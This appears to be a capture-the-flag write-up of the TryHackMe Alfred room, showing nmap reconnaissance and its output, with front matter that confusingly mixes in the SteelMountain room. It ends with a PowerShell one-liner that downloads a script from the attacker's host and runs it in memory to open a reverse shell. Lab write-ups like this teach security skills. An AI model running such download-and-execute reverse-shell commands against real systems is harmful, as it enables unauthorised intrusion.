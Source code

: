 ```yaml
---
title: TryHackMe - Alfred w/o Metasploit
publishDate: 2023-09-25
updateDate: 2023-09-25
author: Abhinav Kumar
image:   '~/assets/images/tryhackme-steelmountain.jpg'
excerpt: TryHackMe SteelMountain is a Windows box where we exploit Unquoted Service Paths, replace the service to get System user.
draft: false
category: TryHackMe
---
```


# SteelMountain

TryHackMe Link to SteelMountain Machine - [THM-SteelMountain](https://tryhackme.com/room/steelmountain)


We will Solve the Machine Completely and post that Answer to the Questions on TryHackMe in the end.

#### Table of Contents

## Initial Recon

Adding machine to hosts file.
```bash
abhinav@ETHICALHACKX:~$ echo 10.10.145.60    alfred.thm | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.145.60 alfred.thm
```


### Nmapping 

```bash
abhinav@ETHICALHACKX:~$ ports=$(nmap -p- --min-rate=1000 -T5 alfred.thm | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
                                                                                                            
abhinav@ETHICALHACKX:~$ echo $ports
80,3389,8080
                                                                                                            
abhinav@ETHICALHACKX:~$ sudo nmap -sC -sV -A -O -T5 -p$ports alfred.thm -Pn
[sudo] password for abhinav: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 23:15 IST
Nmap scan report for alfred.thm (10.10.145.60)
Host is up (0.17s latency).

PORT     STATE SERVICE        VERSION
80/tcp   open  http?
3389/tcp open  ms-wbt-server?
8080/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host

TRACEROUTE (using port 3389/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.27 seconds
                              
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.58.66:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.58.66 -Port 1234```